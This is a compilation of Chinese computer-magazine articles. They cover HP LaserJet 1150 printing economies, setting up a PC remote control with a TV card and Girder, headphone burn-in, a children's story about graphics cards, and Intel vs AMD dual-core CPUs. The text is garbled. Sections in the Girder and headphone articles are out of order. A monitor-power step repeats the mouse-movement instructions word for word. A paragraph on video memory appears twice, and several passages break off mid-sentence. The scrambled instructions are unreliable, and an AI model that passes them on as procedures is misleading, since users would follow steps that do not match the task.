打开要打印的文档，单击Word等应用程序“文件”菜单中的“打印”命令，打开对话框单击其中的“属性”命令，即可看到如图1所示对话框的“纸张/质量”选项卡。我们只须选中如图1中的“经济模式”复选项，“确定”后即可使用“经济模式”打印文档。



除了上述方法以外，hp LaserJet 1150激光打印机驱动程序提供了两种打印分辨率，如果待打印的文档仅仅包含文本，一般人很难看出600dpi和1200dpi的区别，但是两者的墨粉用量却有一定差别。因此，降低打印分辨率也是一种行之有效的节约措施。

我们只需按上面介绍的方法打开如图1所示选项卡。打开“打印质量”下面的下拉列表，根据需要选择最低的打印分辨率即可。尽管这种方法的墨粉节约效果不如“经济模式”显著，但是它对打印质量的影响非常小，是打印各种正式文档时首选的节约措施。

### 2. 灵活使用纸张

人们编辑文档通常使用A4或B5纸张，正式打印时使用的纸张可能比它大或小。对于hp LaserJet 1150激光打印机用户来说，遇到这种情况根本不用重新调整页面设置，只需要进行简单的设置就可以了。

假如编辑文档时设置的页面是A4，实际打印时使用的纸张是B5。我们只需要打开如图1所示选项卡中的“尺寸是”下拉列表，选中“B5(ISO)”然后“确定”就可以了。而且每次选用的纸张尺寸可以在选项卡中预览，便于用户使用某些特殊规格的纸张。

### 3. 双面打印

双面打印是最有效的纸张节约手段，但是除了Word 2003以外，绝大多数应用程序都没有提供双面打印功能。但是hp LaserJet 1150激光打印机用户就幸运多了：我们只需单击应用程序“文件”菜单中的“打印”命令打开对话框，再单击“属性”命令打开“hp LaserJet 1150 Driver属性”对话框的“完成”选项卡，选中“双面打印”复选项，单击“确定”按钮开始打印。当纸张的第一面打印结束以后自动弹出如图2所示对话框，用户只需按照其中的提示取出和放入纸张，单击“确定”按钮就可以打印纸张的第二面了。




### 4. 多版打印

诸如“学习资料”之类的文档采用多版打印，然后装订成小册子不仅美观而且节约纸张。hp LaserJet 1150激光打印机驱动程序的多版打印方法是：单击应用程序“文件”菜单中的“打印”命令打开对话框，再单击“属性”命令打开如图3所示的“hp LaserJet 1150 Driver属性”对话框的“完成”选项卡，在“每张纸打印多少页”下拉列表中选择每张纸上打印的文档页数(1、2、4、6、9)，连续单击“确定”按钮即可开始打印。

另外，进行多版打印时仍然可以选中“双面打印”复选项。在打印的文档需要以小册子形式装订时，可以打开“完成”选项卡的“小册子布局是”下拉列表，选择“关闭”、“左边装订”或“右边装订”。

### 5. 缩放打印

除了上面介绍的灵活使用纸张的方法外，hp LaserJet 1150激光打印机驱动程序还提供了缩放打印功能，方便用户在不同尺寸的纸张上打印文档。





## 做个能遥控的电脑

用电脑久了，自然就对电脑有了一种十分亲切的归属感，什么事情似乎都得优先把电脑用上。别人用HIFI听CD，我却就是喜欢用电脑听音乐，因为无论CD、MP3还是WMA无所不能播放；别人喜欢用DVD机看大片，我却依然还是喜欢用电脑看电影，因为无论VCD、DVD还是DivX、RMVB同样无所不能看……可是不容否认，家电就是家电，电脑毕竟是电脑！用电脑听歌看电影就得拿着鼠标点这里点那里，换歌、快进也得走到电脑前操作，跟其他“专业”的电器相比，遥控功能似乎成了电脑无法相提并论的最大障碍。为了维护电脑在我们DIY一族心目中至高无上、无所不能的形象，下面跟我一齐来把最渴望的遥控功能赋予我们的电脑吧！

## ## 硬件准备

一台普通的家用电脑，除了键盘和鼠标两大人员交流工具以外，我们还能怎么跟电脑沟通呢？也许留意电脑市场的朋友都早已察觉，无论是国内的联想还是国外的微软，他们都有一套方便得可以媲美家电的家庭多媒体方案，像什么一键看DVD看电视、媒体中心之类的。其实这些“神奇”的家庭多媒体方案跟我们普通的电脑根本没有本质的区别。说白了，就是给用户预安装和预设置一堆播DVD看电视的软件，再加个遥控器，让用户使用起来的感觉尽量贴近操作家电那么简单而已。

好了，先别管别人的月光有多美，因为那是要付出较大的金钱代价的，而且看完本文以后也能拥有，而金钱的代价甚至为零。现在来看看让电脑能被遥控所需要的硬件准备吧：

首先，一块电脑内置的电视卡是必须的，而且卡上必须附带遥控功能。现在市面上的电视卡都卖得便宜得很，两百块甚至以下都能成交，而且也都带了遥控功能，如果你已经配置了电视卡，那么就无需再作投资了。但是为了确保最佳的通用性和日后软件升级性，笔者这里强烈建议各位新购电视卡的朋友，一定要选择更流行的电视卡芯片，例如目前最流行的Philips SAA 713x芯片(如SAA 7134)，或者是经典的BT8x8芯片(如BT 878)。

然后，把电视卡附带的红外线感应接收器，正确连接到电视卡的红外接头上即可。而诸如电视天线、声卡音频线等等，则与本文的遥控电脑无关，各位可连可不连。此外，需要提醒大家的是：个别价格低廉的电视卡虽已具备遥控功能，但是却没有附带这根红外线感应接收器和遥控器，笔者建议不要购买这类产品，因为这些配件既难找也难配，价格也给哄抬，得不偿失(见图1)。



## ## 软件准备

准备好硬件设备以后，接下来就可以开始做软件上的准备了：

首先，给电视卡安装驱动程序，让电脑正确识别已经安装的电视卡，而电视卡附带的电视软件则可装可不装。

> > 小提示
> 若安装了电视卡附带的电视软件，软件就会运行并驻留一个侦测程序，探测并执行遥控器发送过来的信号命令(见图2，任务栏上自动驻留的丽台 Winfast TV 2000 XP 侦测程序)。因此，记得要把该侦测程序关闭，否则我们的主角 Girder 将无法使用哦！这是后话。



然后，下载并安装我们的主角——Girder 软件，它可以检测到用户按下的遥控器按键，并执行由用户指定的操作。例如控制系统音量大小、控制显示器开关、控制鼠标移动、运行某个程序、对某个程序进行操作等等。

> > Girder 小档案
> 软件版本：4 Beta 8
> 官方网站：www.promixis.com
> 下载地址：www.bb555.net/down/view.asp?id=164

## ## 动手设定

最后，我们需要在 Girder 中指定电视卡的类型，方法如下：

- 1. 单击“File → Settings”菜单，打开设置窗口。
- 2. 切换到“Plugins”标签页，在列表中找寻并勾选相应的电视卡选项，单击“OK”按钮(见图3)。



- 3. 单击“Tools → Add Remote Wizard”菜单，打开添加遥控向导。
- 4. 在向导第二步中，选择以“New”方式添加新遥控。
- 5. 在向导第三步中(见图4)，把遥控器对准红外线感应接收器，并按下遥控器任意一键。若 Girder 成功探测到遥控器发出的信号，将直接跳到下一步，而无需鼠标手动单击“Next”按钮。

> > 注：该步骤操作期间切勿按下键盘任何按键，也不要移动或按下鼠标。



- 6. 在向导第四步中，为所探测到的遥控取名。
- 7. 在向导第五步中，可为一些通用功能绑定遥控键，例如在左列表选择“MASTER VOLUME UP”选项，然后把遥控器对准接收器，按下遥控器“1”键，即可把遥控器“1”键的功能定义为音量增加(见图5)。

> > 小提示
> 如果在 Girder 的列表中没有找到你的电视卡类型，可以尝试手动添加或寻找专用插件。

（新疆 张迎新）按钮关闭窗口即可(见图8)。





5. 在窗口右部单击选择新添加的“Mouse Right”功能，单击“Edit→Add Event”菜单，为该功能添加一个触发事件(见图9)。



6. 在自动打开的设置窗口中，单击“Learn”按钮，然后把遥控器对准接收器，并按下遥控器“→”键。设置完成后，按下遥控器“→”键即可把屏幕的鼠标向右移动10像素(见图10)。

选项，在“遥控显示器”文件夹下添加“显示器电源管理”功能(如图13所示)。

那么就可以到Girder官方网站的下载栏目下找寻，网址为：www.promixis.com/downloads.php?mode=list。例如本例需要下载的电视卡插件名为“Winfast 2000XP Deluxe”，把下载到的压缩包解开，并参考其中的说明文件，把相应的文件复制到Girder的安装目录或其下的“Plugins”目录即可(见图6)。关闭并重新启动Girder后，即可在设置窗口中找到新增的电视卡类型。







到这里为止，你的遥控器已经具备最简单的电脑控制能力了。

## 建立虚拟鼠标

为了带领大家更好地享受Girder所带来的便捷，笔者特别挑选了两个有代表性的设置范例介绍，首先介绍的范例是如何使用遥控器控制鼠标的移动和单击。由于Windows系统是建立在方便直观的可视化鼠标操作基础上的，所以用遥控器的按键模拟各种鼠标操作，是极具意义的！设置方法如下：

1. 单击“View→Switch to Expert Interface”菜单，切换到专家界面。

2. 单击“File→New”菜单，以任意名字新建一组功能设置。

3. 在窗口右部单击选择“New”选项(相当于文件夹，用于分类不同的命令)，然后在窗口左部展开“Actions→Mouse→Movement”树，双击“Mouse Right”(鼠标向右移动)项，把“鼠标向右移动”功能添加到“New”文件夹下(见图7)。



4. 在自动打开的设置窗口中，把“Action”设置为“Off”(即关闭屏幕显示功能)，切换到“States”签页，把“State Count”和“Trigger on State”分别设置为“3”、“2”。设置完毕一定要单击确定按钮后，才能关闭该设置窗口哦！(见图14)

5. 参考上述方法，在“New”文件夹下分别添加“Mouse Left”(鼠标左移)、“Mouse Up”(鼠标上移)、“Mouse Down”(鼠标下移)、“Mouse Left Click”(单击鼠标左键)、“Mouse Right Click”(单击鼠标右键)功能，并分别为这些功能指定一个对应的遥控器按键(见图11)。



## 小提示

要实现单键多功能，就必须使用一个计数器，以计算指定遥控按键被按下的次数。这个计数器的初始值为1，当累计达到计数器的最大值时，就恢复到初始值。本例“State Count”设置为3，代表计数器的最大值为3，当计数器累计到3后，便恢复到1。“Trigger on State”设置为2，代表当计数器累计为2时，就触发当前事件，即关闭屏幕显示。

## 单按键开关显示器

在“建立虚拟鼠标”范例中，笔者演示了单按键单功能的设置方法。然而单按键多功能也是十分常用的功能，例如单击一下遥控器“9”键就关闭屏幕显示(进入节能状态)，再单击一下遥控器“9”键重新打开屏幕显示(取消节能状态)。方法如下：

1. 在窗口右部单击选择“new1.gml”项，单击“Edit→Add Group”菜单，添加一个新文件夹，并命名为“遥控显示器”(见图12)。

2. 在窗口右部选择新增的“遥控显示器”文件夹，然后在窗口左部展开“Actions→Monitor”树，双击“Monitor Power Management”选项，在“遥控显示器”文件夹下添加“显示器电源管理”功能(如图13所示)。





3. 在自动打开的设置窗口中，单击“Learn”按钮，然后把遥控器对准接收器，并按下遥控器“→”键。设置完成后，按下遥控器“→”键即可把屏幕的鼠标向右移动10像素(见图10)。

4. 在“Initial Stepsize”栏中，设置鼠标移动步幅，默认设置为每次向右移动10像素。完成设置后，单击确定按钮，并单击“×”按钮关闭窗口即可(见图8)。

5. 参考步骤2~4，再次添加一个“Monitor Power Management-On”(重新打开屏幕显示)的功能。但这次记得要把“Action”设置为“On”、“把“State Count”和“Trigger on State”分别设置为“3”、“3”。

(biosisi)

## 让我歌声更嘹亮——耳机“煲机”经验谈

我是一只新的AKG K66，主人最近刚刚把我从商店里买了回来，原因是我那个商店里展示的孪生兄弟在中高频和声场定位上的表现都让喜欢蔡琴阿姨那样女声的主人满意。可是回家后主人把我接到他的主机里只听了一会就把我放在一边了，我听见了他轻轻地叹息。我知道这不是我的错，我和在商店里Show的那个兄弟都是从AKG的工厂里走出来的，从个体上讲我们没有多大差异。只是生命在于运动，耳机也不例外。我们耳机由于自身的“生理结构”的原因，导致我们的表现在很大程度上要依赖振膜的表现。我因为一直在商店的货架上压根就没有运动，所以我的振膜在这个时候还没有舒展开，紧绷绷的，出来的声音自然是高音带毛刺，中频干涩，低频缺乏细节，表现当然不如我那个在商店展示的孪生兄弟了。好在主人在论坛里查找如何让我运动的方案了。他先找着，我在这里把自己知道的一些“煲机”容易犯的低级错误和常用的“煲机”跟大家聊聊，也顺便祈祷主人不要犯这样的低级错误。

Generator一类的“音频发生器”软件，发出一个固定的很20Hz音频来测试或煲机，假如听不到声音就提高音量直到听见为止，但是这样做真的很危险。因为20Hz是人类的听音极限，就是说在20Hz时人类的耳朵刚刚开始有知觉（有些人根本听不见，我的主人用Audiotrak MAYA 7.1声卡测试我的时候就没有听见20Hz的声音）。举例来说人耳对3000Hz的灵敏度与对20Hz时的灵敏度会相差20~80dB，我们知道灵敏度每相差3dB推动功率就差两倍，同样的，差6dB就差4倍，差9dB就差8倍。那大家估算一下如果你要听到20Hz要输入多大的功率（开多大的音量）？而且20Hz的信号势必要使振膜的振幅极大、同时音圈的阻抗降低，电流急剧升高，使音圈发热变形，进一步导致振膜变形，造成破声、蹭圈等永久性破坏，即使是短时间的试听也会使音圈打底的。

温暖亲切，低频再也不是混成一团的轰隆隆，而充满细节；现在主人在带上我听歌的时候，总是会流露出由衷的微笑。

### “煲机”常见的低级错误

200元以上的耳机很多返修都是因为煲机的时候方法不当导致的。这并不是说煲耳机是一种危险行为，只要方法得当，煲好后的耳机一般是几年也不会坏的。

> 你知道吗
经过煲机的耳机才能发挥出真正的性能！
新耳机的振膜是有一定硬度的，由于这个原因，必然导致声音再现显得比较生硬。“煲机”正是经过一段时间的放音，让耳机振膜逐渐舒展的一个过程。而且针对每一种频率的声音，都要经过一段时间的煲机。只有经过这样的一个“煲”的过程，耳机才能更好地再现各种性质的声音。这就好像新买的汽车需要“磨合发动机”是一个道理。

### 低级错误一：“煲机”音量大不得

一些朋友因为心急，往往喜欢把音量开到最大然后用一些重金属之类的音乐来煲机。这简直是拿刀在谋杀我们，因为耳机的振膜在没有运动开的时候是很脆弱的，大的音量和过多功率要求相对中高频声音要大很多的低音都可能造成损坏。我在店里的时候就看见很多因此出现爆音而牺牲（返修）的耳机。其实等耳机的振膜活动到比较柔软的时候，一般的音乐无论高低音频都很难叫它很受伤了。我建议大家使用蔡琴的《银色月光下》、Bandari乐队和其他一些相对舒缓的音乐，在1/4~1/3音量下煲机，等播放了20~30小时之后可以把音量稍微加大一些来播放TIS公司的CD——《黑毒》继续煲机，这张CD不仅仅非常适合煲机，而且还非常好听，大家可以在煲机的同时好好欣赏一下。

### 低级错误二：“刚、猛”音乐未必好

一些心急的朋友经常为了缩短煲机的时间，还喜欢一上来就用一些比较刚猛的摇滚、黑人或拉丁音乐来煲机。其实这样也比较危险，因为新耳机的振膜边缘是比较紧的，弹性大而顺性小。这样的刚猛路数还不是很适合热身，如果低音过强，甚至可能将耳机的音圈震散或振膜开胶。总之，越是高档的耳机越要小心地煲，因为它们太敏感了。一不小心就很可能留下一些音质瑕疵，让你听了就遗憾。为了安全，我喜欢用一些比较轻柔的音乐或是干脆用白噪音（就是收音机没有找到台的时候发出的那种沙沙声）来在最初的二三十小时中煲机。等振膜的顺性改善点之后再更换一些动感稍微好点的流行乐或钢琴曲。

### 低级错误三：更低的声音你听得见吗？

一些的新烧友总是对摇滚乐那强悍的低音很感兴趣，由于这些入门级的HiFi耳机在频响方面的指数几乎都能够达到20Hz左右，所以这些爱好者拿到之后，一般是很急切地拿一些超低频去测试一下耳机的“下潜深度”。一些偷懒的人甚至用Test Tone

### 小知识

> 打底:用来形容音箱发生问题的专用词。这种问题一般都指音箱的喇叭(单元)的振膜由于震动幅度过大，导致拍打箱体而造成的“啪啪”声杂音。一个音箱会出现这样的问题，一方面可能是低频音量过大，喇叭承受不起这么巨大的震动幅度而残生的，另一方面也可能是喇叭单元的振膜已经破损、脱胶造成的。

### 我的“运动”方案

刚说完几种常见的低级错误我就感觉到一阵很舒服的电流，蔡琴阿姨《被遗忘的时光》已经冲口而出了：是谁……在敲打我窗，是谁……在撩动琴弦……。我的新搭档——Audigy 2ZS悄悄地告诉我，它在使用25%音量来播放蔡琴阿姨的专集。大约播放了十几个小时这么柔和的女声之后，主人叫我休息了几个小时，再次醒来的时候又是十几个小时的柔声清唱。在结束了比较舒缓的前三十小时的热身后，声卡老兄又用30%音量叫我来唱好多吉他、萨克斯和一些交响乐，这次的运动量果然不小，八个小时下来我就觉得浑身上下都松了不少，我就这样每天八小时坚持运动了一个星期后，我觉得自己发出的高音已不带毛刺了，变得圆润自然，中音

### 机主的一些个人想法

在这里我并不推荐大家使用扫频，这主要是考虑到安全的原因。首先，人声和多数管弦乐相对于音频发生软件所产生的声音远要柔和也更接近自然听感需要；其次由于在保持同一声压级的情况下，要在40Hz的低音和10KHz之间扫频的话，耳机的功率在几秒钟内发生了大约几十甚至上百倍的变化，这样快速变化的功率可以说是颇为剧烈了。对于顺性还不好且只有几个或十几个微米厚的耳机振膜来说是有一定风险的（至少我觉得是有留下听音缺憾或折损使用寿命的风险的，两三百的耳机虽然不是什么高档东西但是留下缺憾也不好啊）。假如大家一定要使用软件来煲，笔者宁可推荐使用Test Tone Generator（下载地址:http://www.softsea.net/soft/111149.htm）生成白噪音来煲。

### 小知识

> 扫频:这个词在很多专业资料里面都能看得到，如显示器、频谱仪等等。但在玩音响的发烧友眼里，它实际上是一种拿音频发生器（或软件）在一定的频率段内（一般用20Hz~20000Hz）反复播放音频信号的测试音响设备行为（操作）。

最后，我和大家说说煲机中一个较为关键的问题，就是煲机时间的控制。其实，煲机的目的就是要将紧绷着的耳机振膜弄柔顺了，但是每一款耳机所使用的振膜材料并不完全相同，自然煲机的时间就不同。那我们如何去确定这个时间呢？这个时间是无法准确计算的，目前得到的大多都是经验值。准确的来说，当这款耳机煲到基本符合你对该耳机的听感期待时（简单来说就是当你听起来觉得舒服时），那么煲机的操作就完成了。一般来说，普通的耳机煲一晚上也就够了，而再高档一些的煲20~30个小时，也已经差不多了。
（王昉）

自从和“老神仙”漫游了一遍电脑主板之后，小强发现自己对电脑不再是一无所知了，但强烈的好奇心却让他坐立不安，他心中有太多太多的问题想要问，有太多太多的知识需要了解。这天刚放学回到家，他便迫不及待地把神秘的光球呼唤了出来。

“不，这不是主板，而是统管着整部电脑的‘显示’任务的显示卡！”

“啊！显示卡就是插在AGP还有什么PCI-E插槽上的那块东西吗？”小强记起来了，自己的主板上是插着这么一个东西，“它怎么和主板一样呢？”

“显示卡和主板都是建立在PCB（注：PCB的介绍可看上一期）板上的集成电路，可以说它们的地基是一样的，但是它们的芯片以及电路结构，还有作用都不同，你爸爸还算懂行，他买的这块显卡是质量很好的六层PCB板哦！”

### 小知识

> PCB的层数越多，就能够使电源网络与地网络在承担更大的电流的同时屏蔽掉更多的干扰，也因此可以极大地提高整个系统的稳定性。但是PCB的层数越多就意味着工艺越复杂，复杂的工艺造成的就是较高的废品率，成本也在废品率升高的同时提高了不少。对于一般的显卡来说，6层板虽然比4层板仅仅增加了2层板，但是在成本上6层板是4层板的两倍。

### 神仙再现 小强又变小了

“孩子，你把我叫出来，是不是想再到电脑里面去看一看啊？”

“对啊！电脑内部的世界原来是这么有趣的，我有好多好多问题想问您呢！”

“那这一次你想知道些什么呢？”光球问道。

小强看着电脑的显示屏幕想了想，然后指着黑乎乎的屏幕说道：“我想知道，那些彩色的图片，还有电影是怎么从电脑内部跑到显示器上面来的！”

“好！我明白了，下面我们一起去游历一下吧！”光球话音刚落，小强只觉得浑身上下被温暖的白色光芒包围，眨眼间自己已经缩小了不知道多少倍，然后站在一块鲜红的地板上。这块地板上到处都是斑斑点点，坑坑洼洼，还有一条条的划痕。小强一下子认了出来，这个“地板”上的那些凸起，就是一个一个的电容和芯片，那些划痕就是电路，和之前自己所见的主板是一样的。

“这不是主板吗？我们怎么又来了？”

### 显卡世界 何来美丽图像

“那么显示卡为什么会显示出那些绚丽的图像啊？”小强看着光球问道。

“先别急，我们就从显示卡的整个原理来看看吧！”光球说罢，小强的眼前顿时出现了一幅画像，里面是一个简单的显示卡结构（见图1），“你看见了吗？这就是显示卡的工作流程了，你所看到的图像显示，就是经过这条流水线出来的，下面我们就到这条流水线上面每一个重要的地方走一走吧！”

光球说罢，小强只觉得身子一轻，人已经和光球一起飞到了显示卡与主板相接的接口



## GPU 显卡的心脏

接着光球带小强飞到了一个外表上盖着巨大风扇的物体前面，但见白光一闪，风扇散开了，露出了里面一个带金属外壳的东西，那是什么东西？“接下来的这个就是显示卡的心脏：‘图形处理芯片’了，英文叫做GPU（Graphic Processing Unit）。为什么‘图形处理’呢？不是直接把电脑里面要显示的东西送出来就可以了吗？” 光球笑了，“那可没有那么简单，你想想，你在键盘上面做的每一个动作，都会在屏幕上面立刻显示出效果，特别是电脑游戏，你控制的小人每走一步，他的身体形态会变，影子的位置会变，而这一切和图形的变化和显示相关，都是需要运算的。以前显示卡只能运算2D的图像，这部分的显示卡在处理3D图像和特效时主要依赖CPU的处理能力，我们称为‘软加速’，而现在的显示卡都集成了3D处理功能了。” “我听爸爸说，现在外面的显示卡处理主要就是什么N和一个什么I的……” “是nVidia和ATI！” 光球纠正道，“虽然市面还有别的品牌的处理器，但是都无法和这两家相比。它们各自又有许多不同型号的显示卡产品，譬如nvidia的有5600，6600，6600XT等（见图2），而ATI就有9100，9200，9500，9800，X800，X900等等（见图3），它们各有各的特点，不过大家的出发点都是一样……”



RAMDAC的刷新频率与显示器的“带宽”意义近似，其工作速度越高，频带越宽，高分辨率时的画面质量就越好。该数值直接决定了在足够的显存下，显卡最高支持的分辨率和刷新率。如果要在1024×768的分辨率下达到85Hz的分辨率，RAMDAC的速率至少是1024×768×85×1.344（折算系数）÷106≈90MHz。

## 显卡是怎么工作的呢？

在仔细看清楚了显存之后，小强回忆起之前光球给他看的那幅显示卡工作原理图，“下一站”应该是“RAMDAC”了，他不禁先开口问：“神仙爷爷，显示卡处理的图像从处理器跑到显存里面之后，还要到一个RAMDAC的东西里面去吧，它是干什么用的？”

显存容量是决定显示卡显示速度的重要参数，因为在目前的3D游戏之中，大量的Texture Mapping（材质贴图），以及在开特效的时候（比如开启FSAA和AF）都需要大量的显存来援助，以目前的游戏发展水平而言，一屏贴图的数据总量甚至超过了100M，如果再打开各种最高级特效，再加上一些其他的图像处理，恐怕128MB乃至256MB的显存都不够用。不过话又说回来，不是人人都追求这些精美到极致的游戏，毕竟512MB显存的显示卡价格不菲，我们可以等到这类游戏普及，显示卡价格降低的时候再从容出手。





## 将美丽图像传送

光球说完之后，小强的身体接着又飞了起来，这回居然是直接飞到机箱外面，从显示卡的外面往回看，“怎么样，你看到这三个接口了吗（见图5）？”



“这三个……是不是把显示卡和显示器连在一起用的啊？” “嗯，没错，这就是显示卡的输出接口了，它们分别是DVI数字输出、S端子输出和RGB模拟输出。”



显存容量是决定显示卡显示速度的重要参数，因为在目前的3D游戏之中，大量的Texture Mapping（材质贴图），以及在开特效的时候（比如开启FSAA和AF）都需要大量的显存来援助，以目前的游戏发展水平而言，一屏贴图的数据总量甚至超过了100M，如果再打开各种最高级特效，再加上一些其他的图像处理，恐怕128MB乃至256MB的显存都不够用。不过话又说回来，不是人人都追求这些精美到极致的游戏，毕竟512MB显存的显示卡价格不菲，我们可以等到这类游戏普及，显示卡价格降低的时候再从容出手。

“我都明白了！原来显示卡看起来那么复杂，它的工作也是井井有条的，我们肉眼所看到的精美图像，要经过这样的过程才会出现在屏幕上面呀！真是太有趣了！” 小强手舞足蹈起来。

“好了我的孩子，今天的时间到了，下一次我们再去游历电脑内部的世界吧！”

（广东 水水）## AMD vs Intel 双核心CPU技术

相信对电脑有一定了解的朋友都知道在计算机领域有一个“摩尔定律”，它是英特尔公司创始人之一戈登·摩尔于1965年在总结存储器芯片的增长规律时所说的“微芯片上集成的晶体管数目每18个月翻一番”。而现今的CPU领域两大巨头Intel和AMD的相互斗争，更加验证了这条摩尔定律的准确。不过可能有细心的朋友发现，在很长的一段时间里面，CPU的频率都停留在3G左右，没有像以前那样“突飞猛进”，难道摩尔定律已经不起作用了？当然不是，只是摩尔定律的表现从频率的增加转移到CPU的内部了。现在两大CPU的阵营已经从单纯地追求CPU频率，转移到了追求CPU工作效率上面，随之而来的便是05年才出现在台式机上面的CPU双核心技术了。

## 小知识

### 什么是双核心处理器？

所谓双核心处理器，简单地说就是在一块CPU基板上集成两个处理器核心，并通过并行总线将各处理器核心连接起来。双核心并不是一个新概念，而只是CMP (Chip Multi Processors，单芯片多处理器)中最基本、最简单、最容易实现的一种类型。其实在RISC处理器领域，双核心甚至多核心都早已实现。CMP最早是由美国斯坦福大学提出的，其思想是在一块芯片内实现SMP (Symmetrical Multi-Processing，对称多处理)架构，且并行执行不同的进程。早在上个世纪末，惠普和IBM就已经提出双核处理器的可行性设计。IBM在2001年就推出了基于双核心的POWER4处理器，随后是Sun和惠普公司，都先后推出了基于双核架构的UltraSPARC(见图1)以及PA-RISC芯片。但此时双核心处理器架构还都是在高端的RISC领域，直到前不久Intel和AMD相继推出自己的双核心处理器，双核心才真正走入了主流的X86领域。



## 我们为什么需要双核心处理器？

在很长的一段时间里面，我们都习惯了Intel和AMD两家公司争相推出频率越来越高的CPU产品，CPU频率从2G跃升到3G也只用了仅仅一年的时间。但是很快我们就发现CPU的频率到了3.66G之后就遇到瓶颈不再上升了。Intel更宣布推迟推出频率为4G的P4处理器，这是为什么呢？原来CPU的内部集成了大量的晶体管，随着制作工艺的提升，晶体管数量越来越多，频率越来越快，功耗自然也不断提升，后果只有一个，那就是发热量不断增大了。相信很多电脑爱好者都经历过因为CPU风扇出了故障而导致CPU连主板一起烧毁的悲剧，很多CPU甚至在生产时就发生烧毁现象，这在很大程度上影响了处理器的产量。

有鉴于此，Intel和AMD发现已经无法从单纯提高处理器速度上面来获得处理器运算能力的突破了，它们把方向转到了“多内核处理器”上面。多内核处理器的设计理念是：与其追求发热量很高的单一的4GHz处理器，还不如使用两个发热量较低的2GHz处理器。多内核处理器可以在很大程度上提高PC机的性能，尤其是对多媒体用户而言。例如，你正在通过PC复制电视内容，同时又通过高清视频与他人通话，如果此时你使用双内核处理器，那么每个处理器可以处理一条指令，同时处理两条指令，就不会出现使用一个处理器时所发生的堵塞现象，理论上使用双内核处理器将至少提升50%-80%的性能。因此我们需要性能更强的处理器，目前只有走双核心这一条路。

如果你只是用电脑来做简单的文字编辑处理方面的工作，或者上网浏览、聊天等，双核心不会带来太大的性能提升。但是当你需要多线程工作的时候，譬如你一边运行杀毒软件，一边看DVD高清晰影碟，另外还在进行视频压缩，这时双核心的优势就体现出来了。有了双核心技术之后，甚至可以多人同时使用一台电脑，而不会影响到电脑的整体性能，前景非常诱人。

## 从虚拟双核到物理双核：Intel 的双核心之路

其实早在2005年2月，Intel推出第一款双核心处理器之前，有一个名词是我们已经耳熟能详的，那就是超线程技术(Hyper-Threading Technology)了。超线程技术是利用特殊硬件指令把多线程处理器内部的两个逻辑内核模拟成两个物理芯片，从而使单个处理器能“享用”线程级的并行计算的处理器技术。也就是说是将一个物理CPU模拟成两个逻辑CPU，在操作系统任务管理器的性能选项卡中可以看到两个CPU使用记录。多线程技术可以在支持多线程的操作系统和软件上，有效地增强处理器在多任务、多线程处理上的处理能力(见图2)。因此我们可以将拥有超线程技术的CPU看成是一种“虚拟双核心CPU”。



超线程技术虽然优点突出，但是缺点也很明显，那就是一旦打开超线程，处理器内部缓存就会被划分成几个区域，互相共享内部资源，从而造成单个子系统性能下降。而如果在单个处理器里面集成了两个核心并且拥有独立的缓存，那么就能够避免这种情况出现。而在2005年2月，Intel推出的Pentium D 820则就是这样一款真正的“物理双核心CPU”了。物理双核心比超线程技术单从规格而言已经有了很大的优势(见图3)，由于物理双核心的运算结构基本和双CPU相同，因此要比单个超线程CPU多出一倍的执行资源，在执行繁重的多任务时性能会强大很多，此外物理双核心的CPU同样能够具有超线程技术，这样一来无疑是如虎添翼，性能大增。



目前市面上所见的Intel双核心处理器代号是Smithfield，其结构说白了就是把两个Prescott核心整合在同一个处理器内部，两个核心共享前端总线，每个核心都拥有独立的1MB二级缓存，两个核心加起来就一共拥有2MB。Smithfield核心的P4又有两种，分别是Pentium D和Pentium Extreme Edition(Pentium EE)两大系列（见图4），Pentium D包括了820(2.8GHz)、830(3.0GHz)、840(3.2GHz)，采用800MHz前端总线；而Pentium EE只有840(3.2GHz)，同样是800MHz前端总线。两者之间的最大区别就是Pentium EE支持超线程技术，而Pentium D则不支持超线程。在主板芯片组方面，目前能够支持Pentium D和Pentium EE的就只有945/955系列。



## 后发制人：AMD 的双核心之路

虽然AMD的双核心CPU要比Intel推出的时间迟了三个多月，但是AMD并没有因此而焦急，同时这段时间差也让AMD看到了Intel双核心设计的不足：由于双核心P4之中的两个核心各自拥有1MB的二级缓存，因此必须保证每个物理内核的缓存信息必须保持一致，否则就会出现运算错误。因此Intel将这个“仲裁器”的协调工作交给了北桥芯片(MCH)来负责，但这样一来也就影响了处理器性能的发挥。而和Intel的设计不同的是，虽然AMD的双核心CPU也是将两个Athlon 64核心“捆绑”在一起，而且也是各自享有512KB到1MB的二级缓存，但是AMD采用了比Intel更加先进的SRI系统请求队列技术，在工作的时候每一个核心都将其请求放在SRI中，当获得资源之后请求将会被送往相应的执行核心，所以其缓存数据的一致性不需要通过北桥芯片来协调，直接在处理器内部就可以完成，因此它的缓存数据延迟要比Intel的双核心处理器大大降低。

目前市面上AMD的双核心处理器是Athlon 64 X2(见图5)，其型号由3800+至4800+几种，都是采用0.09微米制程，Socket 939接口。由于AMD双核心处理器的“仲裁器”是在CPU内部而不是在北桥芯片上，因此使用AMD双核心CPU和主板芯片组关系不大，任何Socket 939的主板通过更新BIOS都可以支持Athlon 64 X2，对大多数消费者来说，主板就不需要像Intel那样进行升级了。只是目前AMD双核心CPU的价格昂贵，比起Intel的CPU加主板也差不了多少。



## “真伪”双核心之争

Intel和AMD两大巨头之间的明争暗斗一直都没有停止过，就在AMD发布双核心Athlon 64 X2的同时，它也放出话来，说自己的才是真正的双核，而不像“某公司的产品那样由两个独立的单核所组成，只是使用了多片包装技术将它们捆绑在一起。”AMD口中的“某公司”自然是Intel无疑，那么Intel的双核心CPU真的如AMD所说，是伪双核技术吗？首先，我们来看看Intel和AMD双核心CPU的结构图(见图6)。



从上面看到，AMD和Intel最大的区别就在于它集成了“系统请求接口”(System Request Interface，SRI)和“交叉开关”(Crossbar Switch)，内存延迟时间缩短，性能也相应会高些。但是单单从这样来说Intel是“伪双核”就有点过分了。因此无论是Intel还是AMD的双核心CPU都是属于CMP，也就是说在一个处理器上集成多个处理器核心，在这一点上AMD与英特尔并无分别，因此不能因为自己的产品集成了仲裁等功能就是“真双核”，更没有理由称别人的产品是“双芯”或“伪双核”。AMD和Intel这次的“真伪”双核之争，与其说是CPU设计的技术交锋，还不如说是一种打击对手的营销策略罢了。

## 如影随“摄”——数码伴侣选购指南

